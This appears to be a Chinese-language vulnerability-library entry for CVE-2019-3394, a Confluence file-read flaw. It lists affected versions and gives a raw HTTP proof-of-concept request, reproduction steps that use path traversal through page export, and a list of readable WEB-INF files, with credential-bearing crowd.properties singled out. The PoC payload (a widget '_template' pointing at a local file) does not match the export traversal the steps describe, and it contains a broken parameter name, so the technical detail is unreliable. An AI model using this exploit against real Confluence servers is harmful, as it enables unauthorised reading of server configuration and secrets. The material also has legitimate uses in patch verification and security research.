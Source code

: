 （CVE-2019-3394）Confluence 文件读取漏洞
========================================

一、漏洞简介
------------

> （CVE-2019-3394）Confluence 文件读取漏洞

二、影响范围
------------

-   6.1.0 \<= version \< 6.6.16

-   6.7.0 \<= version \< 6.13.7

-   6.14.0 \<= version \< 6.15.8

三、复现过程
------------

#### poc

    POST /rest/tinymce/1/macro/preview  HTTP/1.1
    Host: localhost:8090
    Content-Length: 175
    Accept: text/plain, */*; q=0.01 
    Origin: http://localhost:8090
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
    Content-Type: application/json; charset=UTF-8
    Referer: http://localhost:8090/ 
    Connection: close

    {"contentId":"1","macro":{"name":"widget","params": {"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_templat e":"file:///C:/Windows/win.ini"},"body":""}}

#### 触发条件

1.  一个有效的登录账号

2.  该账号具有在空间「添加页面」的权限

#### 复现步骤

1.创建一个空白页

![](./resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId27.png)

2.插入一张网络图片

image

![](./resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId28.png)

> 插入url改为你需要查看的文件，例如 /packages/../web.xml

3.点击发布，抓取报文

4.删除多余url前缀,只留下 `/packages/../web.xml` 并放开报文

![](./resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId29.png)

5.查看页面源码确认修改成功

![](./resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId30.png)

6.导出word，并抓包查看

![](./resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId31.png)

![](./resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId32.png)

#### 路径说明

由于 `catalina.jar`中的
`org.apache.catalina.webresources.StandardRoot.class`的
getResource方法的 `validate`存在过滤和限制，所以可遍历路径均在
`/WEB-INF`下

可读取的文件大致如下

    #WEB-INF下
    decorators.xml
    glue-config.xml
    server-config.wsdd
    sitemesh.xml
    urlrewrite.xml
    web.xml
    #/WEB-INF/classes下
    confluence-filtered-frames.properties
    confluence-init.properties
    crowd.properties(较为重要)
    hash-registry.properties
    lgplTemplate.soy
    log4j-diagnostic.properties
    log4j.properties
    logging.properties
    mime.types
    osuser.xml
    seraph-config.xml
    seraph-paths.xml
    velocity_implicit.vm
    velocity.properties
